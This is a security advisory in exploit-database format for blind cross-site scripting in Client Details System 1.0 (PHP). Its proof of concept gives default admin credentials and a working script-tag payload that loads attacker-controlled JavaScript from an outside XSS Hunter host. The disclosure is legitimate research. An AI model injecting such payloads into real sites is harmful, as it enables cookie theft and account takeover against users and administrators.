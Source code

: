 # Client_Details_System-Blind_Cross_Site_Scripting
+ **Exploit Title:** Client_Details_System-Blind_Cross_Site_Scripting
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client_Details_System 1.0 allows Blind Cross-Site Scripting via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Client_Details_System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Login with `admin`:`client123`
+ Go to Create Users: "http://localhost/clientdetails/admin/regester.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Fill the form parameters 'fname', 'lname', 'email' and 'contact' with the payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![7-1](https://github.com/h4md153v63n/CVEs/assets/5091265/51ded0aa-4808-4b61-896e-e8e99a315a73)

![7-2](https://github.com/h4md153v63n/CVEs/assets/5091265/51f60b4d-0fe7-478c-884c-f16060b25fea)

![7-3](https://github.com/h4md153v63n/CVEs/assets/5091265/f195eb57-e2c2-4d70-b81f-ba46819c6ab4)

![7-4](https://github.com/h4md153v63n/CVEs/assets/5091265/588bd279-e6dd-4350-a2ce-5bb4f8097be4)

![7-5](https://github.com/h4md153v63n/CVEs/assets/5091265/1460887d-799b-4999-8f0f-3433393fe77b)

![7-6](https://github.com/h4md153v63n/CVEs/assets/5091265/ff4effde-880b-49bc-8aba-b8cc3885b0f6)







